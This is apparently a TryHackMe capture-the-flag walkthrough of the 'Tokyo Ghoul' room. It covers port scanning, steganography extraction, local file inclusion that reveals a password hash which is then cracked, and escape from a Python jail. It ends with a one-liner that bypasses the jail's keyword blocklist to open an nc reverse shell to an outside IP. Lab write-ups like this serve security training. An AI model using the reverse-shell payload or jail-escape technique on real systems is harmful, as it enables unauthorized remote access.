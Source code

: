 ```yaml
---
title: Tokyo Ghoul
date: 2022-12-24 18:32:00 -0500
categories: [Walkthrough, Tryhackme, CTF]
tags: [security, web, hash, lfi]
---
```


<img src="/assets/tuzTqo4.gif" alt="Tokyo Ghoul"> Help kaneki escape jason room 

# Where am I?

**Use nmap to scan all ports**

- `sudo nmap tokyo.thm -p-`

**How many ports are open?**

- `3`

**What is the OS used?**

- `sudo nmap tokyo.thm -p21,22,80 -sC -sV -sT -O`

# Planning to escape 

**Did you find the note that the others ghouls gave you? where did you find it ?**

- the website

**What is the key for Rize executable?**

- `strings need_to_talk`

**Use a tool to get the other note from Rize.**

- `steghide extract -sf rize_and_kaneki.jpg -p You_found_1t`

# What Rize is trying to say? 

**What the message mean did you understand it ? what it says?**

- `d1r3c70ry_center`

**Can you see the weakness in the dark ? no ? just search**

gobuster we can find a page to lfi in. sending to gobuster and url encoding lets us access /etc/passwd and the user kamishiro's hash

kamishiro:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:1001:1001:,,,:/home/kamishiro:/bin/bash

**What did you find something ? crack it**

john sucks use hashcat

**what is rize username ?**

kamishiro:password123

# Fight Jason

- `sudo -l` first command tried

jail.py 

```
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

Found a python jail escape here that explains on how to get root shell from a python jail https://anee.me/escaping-python-jails-849c65cf306e

can use the following code to send back a root shell.

- `__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.3.64 6676 >/tmp/f')`